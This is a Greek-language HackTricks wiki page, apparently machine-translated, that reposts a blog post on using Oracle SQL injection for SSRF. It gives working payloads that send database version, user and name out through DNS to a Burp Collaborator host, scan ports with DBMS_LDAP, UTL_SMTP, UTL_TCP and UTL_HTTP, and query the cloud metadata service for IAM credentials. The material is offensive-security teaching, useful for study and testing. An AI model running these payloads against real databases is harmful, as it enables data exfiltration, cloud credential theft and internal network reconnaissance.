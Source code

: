 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Σερβίρετε αυτή την ανάρτηση μια αντίγραφο από το wayback machine της διαγραμμένης ανάρτησης από [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Η χρήση του Oracle για να κάνετε Out of Band HTTP και DNS αιτήματα είναι καλά τεκμηριωμένη, αλλά ως μέσο εξαγωγής SQL δεδομένων σε επιθέσεις. Μπορούμε πάντα να τροποποιήσουμε αυτές τις τεχνικές/λειτουργίες για να κάνουμε άλλες SSRF/XSPA.

Η εγκατάσταση του Oracle μπορεί να είναι πραγματικά επώδυνη, ειδικά αν θέλετε να ρυθμίσετε μια γρήγορη εγκατάσταση για να δοκιμάσετε εντολές. Ο φίλος και συνάδελφός μου στην [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), μου υπέδειξε το [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) που μου επέτρεψε να ρυθμίσω μια εγκατάσταση σε μια t2.large AWS Ubuntu μηχανή και Docker.

Εκτέλεσα την εντολή docker με την επιλογή `--network="host"` ώστε να μπορώ να μιμηθώ τον Oracle ως εγγενή εγκατάσταση με πλήρη πρόσβαση στο δίκτυο, κατά τη διάρκεια αυτής της ανάρτησης.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle packages that support a URL or a Hostname/Port Number specification <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Για να βρω οποιαδήποτε πακέτα και συναρτήσεις που υποστηρίζουν μια διεύθυνση και αριθμό θύρας, έκανα μια αναζήτηση στο Google στην [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html). Συγκεκριμένα,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Η αναζήτηση επέστρεψε τα εξής αποτελέσματα (όχι όλα μπορούν να χρησιμοποιηθούν για την εκτέλεση εξωτερικού δικτύου)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Αυτή η πρόχειρη αναζήτηση προφανώς παραλείπει πακέτα όπως το `DBMS_LDAP` (το οποίο επιτρέπει τη μεταφορά ενός ονόματος κεντρικού υπολογιστή και αριθμού θύρας) καθώς η [σελίδα τεκμηρίωσης](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) σας παραπέμπει απλώς σε μια [διαφορετική τοποθεσία](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Επομένως, μπορεί να υπάρχουν άλλα πακέτα Oracle που μπορούν να καταχραστούν για να γίνουν εξωτερικά αιτήματα που μπορεί να έχω παραλείψει.

Σε κάθε περίπτωση, ας ρίξουμε μια ματιά σε μερικά από τα πακέτα που έχουμε ανακαλύψει και καταγράψει παραπάνω.

**DBMS\_LDAP.INIT**

Το πακέτο `DBMS_LDAP` επιτρέπει την πρόσβαση σε δεδομένα από διακομιστές LDAP. Η συνάρτηση `init()` αρχικοποιεί μια συνεδρία με έναν διακομιστή LDAP και παίρνει ένα όνομα κεντρικού υπολογιστή και αριθμό θύρας ως παράμετρο.

Αυτή η συνάρτηση έχει τεκμηριωθεί προηγουμένως για να δείξει την εξαγωγή δεδομένων μέσω DNS, όπως παρακάτω
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Ωστόσο, δεδομένου ότι η συνάρτηση δέχεται ένα όνομα κεντρικού υπολογιστή και έναν αριθμό θύρας ως παραμέτρους, μπορείτε να το χρησιμοποιήσετε για να λειτουργήσει και ως σαρωτής θυρών.

Ακολουθούν μερικά παραδείγματα
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
Ένα `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` δείχνει ότι η θύρα είναι κλειστή ενώ μια τιμή συνεδρίας δείχνει ότι η θύρα είναι ανοιχτή.

**UTL\_SMTP**

Το πακέτο `UTL_SMTP` έχει σχεδιαστεί για την αποστολή email μέσω SMTP. Το παράδειγμα που παρέχεται στον [ιστότοπο τεκμηρίωσης της Oracle δείχνει πώς μπορείτε να χρησιμοποιήσετε αυτό το πακέτο για να στείλετε ένα email](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Για εμάς, ωστόσο, το ενδιαφέρον είναι η δυνατότητα παροχής προδιαγραφών host και θύρας.

Ένα πρόχειρο παράδειγμα φαίνεται παρακάτω με τη λειτουργία `UTL_SMTP.OPEN_CONNECTION`, με χρονικό όριο 2 δευτερολέπτων.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` δείχνει ότι η θύρα είναι ανοιχτή αλλά δεν έχει καθοριστεί καμία σύνδεση SMTP, ενώ ένα `ORA-29278: SMTP transient error: 421 Service not available` δείχνει ότι η θύρα είναι κλειστή.

**UTL\_TCP**

Το πακέτο `UTL_TCP` και οι διαδικασίες και συναρτήσεις του επιτρέπουν [TCP/IP βασισμένη επικοινωνία με υπηρεσίες](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Εάν προγραμματιστεί για μια συγκεκριμένη υπηρεσία, αυτό το πακέτο μπορεί εύκολα να γίνει ένας τρόπος εισόδου στο δίκτυο ή να εκτελέσει πλήρεις Server Side Requests, καθώς όλες οι πτυχές μιας σύνδεσης TCP/IP μπορούν να ελεγχθούν.

Το παράδειγμα [στην ιστοσελίδα τεκμηρίωσης της Oracle δείχνει πώς μπορείτε να χρησιμοποιήσετε αυτό το πακέτο για να κάνετε μια ακατέργαστη TCP σύνδεση για να ανακτήσετε μια ιστοσελίδα](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Μπορούμε να το απλοποιήσουμε λίγο περισσότερο και να το χρησιμοποιήσουμε για να κάνουμε αιτήματα στην περίπτωση μεταδεδομένων, για παράδειγμα, ή σε μια αυθαίρετη υπηρεσία TCP/IP.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Αξιοσημείωτο είναι ότι, λόγω της ικανότητας δημιουργίας ωμών αιτημάτων TCP, αυτό το πακέτο μπορεί επίσης να χρησιμοποιηθεί για την ερώτηση της υπηρεσίας μετα-δεδομένων Instance όλων των παρόχων cloud, καθώς ο τύπος μεθόδου και οι επιπλέον κεφαλίδες μπορούν να περαστούν όλα μέσα στο αίτημα TCP.

**UTL\_HTTP και Ιστοσελίδες Αιτημάτων**

Ίσως η πιο κοινή και ευρέως τεκμηριωμένη τεχνική σε κάθε tutorial Oracle SQL Injection εκτός ζώνης είναι το [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Αυτό το πακέτο ορίζεται από την τεκμηρίωση ως - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Μπορείτε επιπλέον να χρησιμοποιήσετε αυτό για να εκτελέσετε μερικές στοιχειώδεις σάρωσεις θυρών επίσης με ερωτήματα όπως
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
Ένα `ORA-12541: TNS:no listener` ή ένα `TNS:operation timed out` είναι σημάδι ότι η θύρα TCP είναι κλειστή, ενώ ένα `ORA-29263: HTTP protocol error` ή δεδομένα είναι σημάδι ότι η θύρα είναι ανοιχτή.

Ένα άλλο πακέτο που έχω χρησιμοποιήσει στο παρελθόν με ποικίλη επιτυχία είναι η [`GETCLOB()` μέθοδος του `HTTPURITYPE` Oracle abstract type](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) που σας επιτρέπει να αλληλεπιδράτε με μια διεύθυνση URL και παρέχει υποστήριξη για το πρωτόκολλο HTTP. Η μέθοδος `GETCLOB()` χρησιμοποιείται για να ανακτήσει την απόκριση GET από μια διεύθυνση URL ως [CLOB data type.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
